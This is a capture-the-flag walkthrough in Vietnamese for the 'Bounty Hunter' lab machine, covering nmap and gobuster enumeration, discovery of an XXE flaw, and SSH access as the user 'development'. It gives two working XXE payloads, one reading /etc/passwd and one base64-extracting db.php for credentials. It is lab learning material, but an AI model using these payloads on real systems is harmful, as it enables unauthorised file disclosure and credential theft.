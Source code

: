 # bounty hunter

- enumerate

dùng nmap tìm thấy 2 port mở 22 và 80

![https://lh7-us.googleusercontent.com/gY526xW5wv-ducsC0fOuIrFxL_zjtCgelYbGNU5hop17MigaY4sZchL3M9PHESo1L92K1YYZ3vcYSRSKRrxGmH6v7tsDJznw2ULWD2vAP7J7kxLzcqAY_gXmbgOGrN416rviI114nHwK](https://lh7-us.googleusercontent.com/gY526xW5wv-ducsC0fOuIrFxL_zjtCgelYbGNU5hop17MigaY4sZchL3M9PHESo1L92K1YYZ3vcYSRSKRrxGmH6v7tsDJznw2ULWD2vAP7J7kxLzcqAY_gXmbgOGrN416rviI114nHwK)

truy cập p80

![https://lh7-us.googleusercontent.com/fzVQWbd1rgoMGZOVxUCpzCDDXOPwp-jX-R3AjwT4pW-WCxJfJc3UnAUbi5h2guhqRUIH3QloP42HFDET3dw_r2MDQrRMXGPRGuGvChYG2NCYV1iLAEucSz-ld3kyHAp_0IQt6q8riXdm](https://lh7-us.googleusercontent.com/fzVQWbd1rgoMGZOVxUCpzCDDXOPwp-jX-R3AjwT4pW-WCxJfJc3UnAUbi5h2guhqRUIH3QloP42HFDET3dw_r2MDQrRMXGPRGuGvChYG2NCYV1iLAEucSz-ld3kyHAp_0IQt6q8riXdm)

tìm thấy form

sử dụng burp suite xem request post -> có thể bị xxe

```html
<!DOCTYPE title [<!ELEMENT title ANY ><!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
```

![https://lh7-us.googleusercontent.com/vDvIu5wCOF-dOsWxSvGHooOhRbNLBALLQVqt17hH_IuUJZORdBoON-kjLNfsl2D4kfaRtUUHtOtQTpdn7YpSzECJzn4gXxfSzTwJBxz1KqQ1VuYslpsDrVKQ-JoYjo6TrK11QpUU6Nqf](https://lh7-us.googleusercontent.com/vDvIu5wCOF-dOsWxSvGHooOhRbNLBALLQVqt17hH_IuUJZORdBoON-kjLNfsl2D4kfaRtUUHtOtQTpdn7YpSzECJzn4gXxfSzTwJBxz1KqQ1VuYslpsDrVKQ-JoYjo6TrK11QpUU6Nqf)

tìm thấy user root và development

liệt kê các path ẩn

![https://lh7-us.googleusercontent.com/u-LOpfr_mddFIrp4yz7eCS2TViOE-MeH1KG72wlIoqzUS3k56JLC13mUlU4k0Q86glmI2fZnU67QopgKQFbiVebYI0MYJOpyj3YiItGQfLQ3EtT_vHPAvxyJYyHjUXuS0YOfeadpGuQZ](https://lh7-us.googleusercontent.com/u-LOpfr_mddFIrp4yz7eCS2TViOE-MeH1KG72wlIoqzUS3k56JLC13mUlU4k0Q86glmI2fZnU67QopgKQFbiVebYI0MYJOpyj3YiItGQfLQ3EtT_vHPAvxyJYyHjUXuS0YOfeadpGuQZ)

gobuster dir -u http://10.10.11.100 -w /home/kali/Documents/SecLists/Discovery/Web-Content/common.txt -x txt,py,php,sh,html

![https://lh7-us.googleusercontent.com/C-LFWYQHQaGeYJiDWv81onmovtfZ9MWnQvbVQKMGB2buJQK0JpGL-geYeIBqfBLiWT8mbEWYf_QnrY_TmSCiMCnf49fTkIcWuhj9uvRmdlSDFT8ZNE4rNAzuieqI25MjpAyk_7nUQnwy](https://lh7-us.googleusercontent.com/C-LFWYQHQaGeYJiDWv81onmovtfZ9MWnQvbVQKMGB2buJQK0JpGL-geYeIBqfBLiWT8mbEWYf_QnrY_TmSCiMCnf49fTkIcWuhj9uvRmdlSDFT8ZNE4rNAzuieqI25MjpAyk_7nUQnwy)

![https://lh7-us.googleusercontent.com/TKoai8rvUZFS0eehrB2Q1qEQhhaVf_bSxLa6RRX5RZVTaPwUk7nuwwtr0DFTmM-Vyc8i_VUtQPqwTTQoas_bNOxXMaoxj42aZYW-P4PdRXlEwHPAL6mO7h7PXr05GiUtOwpIN6ClwJDQ](https://lh7-us.googleusercontent.com/TKoai8rvUZFS0eehrB2Q1qEQhhaVf_bSxLa6RRX5RZVTaPwUk7nuwwtr0DFTmM-Vyc8i_VUtQPqwTTQoas_bNOxXMaoxj42aZYW-P4PdRXlEwHPAL6mO7h7PXr05GiUtOwpIN6ClwJDQ)

file db.php đáng lưu ý, nhưng có vẻ ko đọc được

thử payload khác, đọc được /etc/passwd -> thử đọc db.php

```html
<!DOCTYPE title [ <!ELEMENT title ANY > <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php" >]>
```

![https://lh7-us.googleusercontent.com/oyH5jJl52TYnLjrE8hd4D30o3slm75K3HBk7K_ZGz8pr0fVwhQMocdR8xaW6p173--va8wqXW5fGv-fRl7-AeA4Br0bdtX7Py2YB3C5pn2OkPkuGOrEiCLFOU5lcaDHKIgbAMh7gEz7j](https://lh7-us.googleusercontent.com/oyH5jJl52TYnLjrE8hd4D30o3slm75K3HBk7K_ZGz8pr0fVwhQMocdR8xaW6p173--va8wqXW5fGv-fRl7-AeA4Br0bdtX7Py2YB3C5pn2OkPkuGOrEiCLFOU5lcaDHKIgbAMh7gEz7j)

thử ssh development thì ok

![https://lh7-us.googleusercontent.com/YKHtc2-LrNnbJhF_P6FnwUyvwBNxMGWn5-Wl2ozrXt5g-BzbqpEiaDvFtVxp9n815AODZJsJTPCu-MxYy3ddktZn77prI3DieHawTO6Sg19dZB9jERHtwvKFKCynJsluY0saUjLW3JLf](https://lh7-us.googleusercontent.com/YKHtc2-LrNnbJhF_P6FnwUyvwBNxMGWn5-Wl2ozrXt5g-BzbqpEiaDvFtVxp9n815AODZJsJTPCu-MxYy3ddktZn77prI3DieHawTO6Sg19dZB9jERHtwvKFKCynJsluY0saUjLW3JLf)

lấy được flag user

![https://lh7-us.googleusercontent.com/TAvmZQKEmhfWgMdMtQxHmNM3xiFScDXtjxRAg-ZA3Irqe2sVfwQOYxcAW0eWWem7BtR-t506SoZWcF-Ir4mKIobeYd_Zl3Nz9Jcvhapk-zzijGkJXAdxJgvscyiPvQmt1FMDkVuIO-Jl](https://lh7-us.googleusercontent.com/TAvmZQKEmhfWgMdMtQxHmNM3xiFScDXtjxRAg-ZA3Irqe2sVfwQOYxcAW0eWWem7BtR-t506SoZWcF-Ir4mKIobeYd_Zl3Nz9Jcvhapk-zzijGkJXAdxJgvscyiPvQmt1FMDkVuIO-Jl)

kiểm tra user development có thể làm gì
